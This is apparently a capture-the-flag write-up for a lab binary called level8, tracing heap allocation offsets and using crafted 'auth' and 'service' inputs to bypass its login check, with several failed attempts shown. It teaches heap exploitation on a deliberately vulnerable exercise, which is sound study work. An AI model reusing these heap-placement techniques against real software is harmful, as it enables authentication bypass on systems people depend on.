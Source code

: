 **Key Observations:**
- `auth` allocated at 0x804a008
- `service` allocated at 0x804a018 (16 bytes later)
- Login check looks at 0x804a008 + 0x20 = 0x804a028 (32 bytes from auth)
- No data at 0x804a028, so check fails

## Step 6: Heap Layout Manipulation Strategy

### The Goal
We need to place **non-zero data** at exactly `auth + 32` bytes to pass the login check.

### Understanding Heap Allocation Patterns
```bash
echo -e "auth test\nserviceA\nserviceB\nserviceC\nlogin\n" | ./level8
```

**Results:**
```
0x804a008, (nil)       # auth at 0x804a008
0x804a008, 0x804a018   # serviceA at +16 bytes
0x804a008, 0x804a028   # serviceB at +32 bytes ← Perfect offset!
0x804a008, 0x804a038   # serviceC at +48 bytes
```

**Discovery**: Multiple service allocations create a predictable pattern with 16-byte spacing.

## Step 7: Failed Attempts and Learning

### Attempt 1: Multiple Short Services
```bash
echo -e "auth test\nserviceA\nserviceB\nlogin\n" | ./level8
# Result: Still shows "Password:" - allocation isn't enough
```

### Attempt 2: Use-After-Free
```bash
echo -e "auth test\nreset\nservicex\nlogin\n" | ./level8  
# Result: Service reuses freed memory but still fails
```

### Attempt 3: Buffer Overflow
```bash
echo -e "auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\nlogin\n" | ./level8
# Result: Length check prevents overflow
```

**Key Learning**: The vulnerability isn't about traditional buffer overflows or simple heap placement - it requires the right **data content** at the right **memory offset**.

## Step 8: The Breakthrough Discovery

### Testing Long Service Strings
```bash
echo -e "auth \nservice12345678901234567890123456789012\nlogin\n" | ./level8
```
